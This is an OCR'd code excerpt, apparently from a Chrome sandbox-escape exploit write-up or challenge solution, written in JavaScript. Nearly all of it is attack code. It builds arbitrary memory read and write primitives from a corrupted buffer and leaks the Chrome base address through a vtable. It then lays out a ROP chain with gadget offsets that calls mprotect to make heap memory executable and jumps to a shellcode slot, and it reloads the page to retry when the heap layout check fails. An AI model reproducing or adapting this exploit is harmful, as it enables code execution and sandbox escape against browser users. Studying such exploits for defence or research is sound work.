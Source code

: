 ```javascript=
        var vtable = (await B[0].read(4)).value; // vtable
        var heap1 = (await B[0].read(5)).value; // numbers_ ( vector_begin )
        var heap2 = (await B[0].read(6)).value; // numbers_ ( vector_end )

        vtable = ftoi(vtable);
        heap1 = ftoi(heap1);
        heap2 = ftoi(heap2);
        /* Check if B[2] is right behind B[0]->numbers_ */
        if ((heap1 + 0x20n == heap2) && ( (vtable & 0xfffn) == 0x4e0n)) { // pass check !
            print("OK!");
            print(hex(vtable));
            print(hex(heap1));
            print(hex(heap2));
        } else { // failed ! reload page and restart SBX exploit
            window.location.reload();
        }

        // Now B[0] can control B[2]'s data pointer by setting B[0].Write(xxx, 5)
        async function aaw(address, value) {
            await B[0].write(itof(address), 5);
            await B[2].write(itof(value), 0);
        }

        async function aar(address) {
            await B[0].write(itof(address), 5);
            var v = (await B[2].read(0)).value;
            return ftoi(v);
        }

        var chrome_base = vtable - 0xbc774e0n; // get chrome base address
        var chrome_base_rop = chrome_base + 0x33c9000n; // We found ROP gadgets in a weird way, so we need another base address for our ROP gadgets
        xchg_rax_rsp = chrome_base_rop + 0x8f0e18n; // xchg rax, rsp; add cl, byte ptr [rax - 0x77]; ret;
        pop1 = chrome_base_rop + 0x29ddebn; // pop r12; ret
        pop_rax = chrome_base_rop + 0x50404n; // pop rax; ret;
        pop_rsi = chrome_base_rop + 0xc5daen; // pop rsi; ret;
        pop_rdx = chrome_base_rop + 0x28c332n; // pop rdx; ret; 
        pop_rdi = chrome_base_rop + 0x20b45dn; // pop rdi; ret; 
        syscall_ret = chrome_base + 0x800dd77n; // syscall; ret;
        jmp_rax = chrome_base_rop + 0xbcfn; // jmp rax;
        
        /* Our ROP chain */
        await B[2].write(itof(pop1), 0); // ROP will start from here
        await B[2].write(itof(xchg_rax_rsp), 1); // vtable will jump to here
        await B[2].write(itof(pop_rax), 2); // pop rax
        await B[2].write(itof(10n), 3); // rax = 10 ( mprotect's syscall number )
        await B[2].write(itof(pop_rdx), 4); // pop rdx
        await B[2].write(itof(7n), 5); // rdx = 7 ( PROT = rwx )
        await B[2].write(itof(pop_rsi), 6); // pop rsi
        await B[2].write(itof(0x2000n), 7); // rsi = 0x2000
        await B[2].write(itof(pop_rdi), 8); // pop rdi
        await B[2].write(itof((heap1 & (~0xfffn))), 9); // rdi = heap1 & (~0xfff)
        await B[2].write(itof(syscall_ret), 10); // do syscall ( mprotect(heap1 & ~0xfff, 0x2000, 7) )
        await B[2].write(itof(pop_rax), 11); // pop rax
        await B[2].write(itof(heap1+0x100n), 12); // rax = heap1 + 0x100
        await B[2].write(itof(jmp_rax), 13); // jmp to RAX ( B[2]->numbers_[32], our shellcode )

        /* Our shellcode */
        await B[2].write(itof(0xfeebn), 32); // infinite loop
        //await B[2].write(itof(shellcode in BigInt), 33); 
        //await B[2].write(itof(shellcode in BigInt), 34); 
```